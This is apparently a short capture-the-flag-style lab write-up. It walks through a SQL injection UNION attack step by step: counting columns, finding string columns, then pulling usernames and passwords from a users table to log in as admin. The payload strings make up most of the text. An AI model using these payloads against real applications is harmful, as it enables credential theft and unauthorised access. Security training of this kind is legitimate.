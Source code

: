
### SQL injection UNION attack, retrieving data from other tables : PRACTITIONER

---

> First get the number of columns:
```
' UNION SELECT NULL, NULL--
```
> They are 2, as 3 gets an error.

> Then check the types, we need strings to get usernames and passwords.
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
> Both work, hence both are strings.

> Next use this same payload but choose username and password fields from the users table.
```
' UNION SELECT username, password FROM users--
```

![userandpass](./screenshots/adminsql.png)

> Now we can login as admin and the lab is complete.

---
